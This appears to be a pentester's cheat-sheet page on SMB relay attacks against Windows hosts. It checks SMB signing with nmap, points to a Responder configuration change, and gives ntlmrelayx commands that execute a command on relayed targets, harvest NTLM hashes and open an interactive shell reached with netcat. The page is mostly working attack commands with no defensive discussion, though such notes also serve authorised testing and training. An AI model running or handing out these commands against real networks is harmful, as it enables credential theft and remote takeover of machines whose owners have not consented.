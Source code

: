 ```yaml
---
description: SMB SIGNING MUST BE OFF AND THE TARGET SHOULD BE A LOCAL/ADMIN
---
```


# SMB Relay Attacks(needs an event)

To check if target's SMB signing is OFF

```
nmap --script=smb2-security-mode.nse -p445 <ip>
```

First Change Responder Configuration( etc/responder/Responder.conf)

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Now the attack

```
impacket-ntlmrelayx
```

OR USE THIS OLD BUT NOT AS BROKEN

```
ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

COLLECT THE HASHES (IF THE EVENT OCCURS WE GET A HASH)

```
ntlmrelayx.py -tf targets.txt -smb2support -i
```

for interactive mode

in the output if we see that we got a shell with an port number;USe netcat to connect to it using that port.

